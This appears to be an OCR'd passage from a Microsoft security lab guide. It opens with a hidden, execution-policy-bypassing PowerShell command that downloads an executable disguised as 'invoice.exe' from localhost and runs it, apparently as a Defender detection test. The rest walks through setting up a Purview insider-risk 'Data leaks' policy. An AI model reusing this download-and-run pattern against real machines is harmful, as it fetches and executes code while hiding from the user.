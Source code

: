 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```

![A screenshot of a computer Description automatically
generated](./media/image100.png)

3.  On the **Choose a policy template** page, choose **Data leaks**,
    under **Data leaks**. Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image138.png)

4.  On the **Name and description** page, complete the following fields:

    - Name (required): ```Data leaks by a user```

    - Description (optional): ```This is a test policy for preventing data leaks.```

5.  Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image139.png)

6.  On the **Choose users and groups** page, select **Include all users and
    groups**. Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image106.png)

7.  On the **Exclude users and groups** page, select **Next**.

9.  On the **Decide whether to prioritize** page, select **I want to specify
    priority content**. Select the check box for **SharePoint
    sites**, **Sensitivity labels** and **Sensitive info types**. Select **Next** to
    continue.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image140.png)

9.  On the **SharePoint sites to prioritize** page, select **Add or edit
    SharePoint sites**. On the flyout pane,
    select ```https://{TENANTPREFIX}.sharepoint.com/sites/ContosoWeb1``` and
    select **Add**. Then click **Next**.

10.  On the **Sensitivity labels to prioritize** page, select **Add or edit
    sensitivity labels**. On the flyout pane, select **Internal/Employee
    data (HR)** and select **Add**. Then click **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image124.png)

11. On the **Sensitive info types to prioritize** page, select **Add or edit
    sensitive info types**. On the flyout pane, search for and
    select **Credit Card Number**, **Contoso Employee ID** and **Contoso Employee
    EDM**. Select **Add**. Then click **Next**.

![A screenshot of a computer Description automatically
generated](./media/image125.png)

12. On **Decide whether to score only activity with priority content**,
    select **Get alerts for all activity**. Select **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image126.png)

```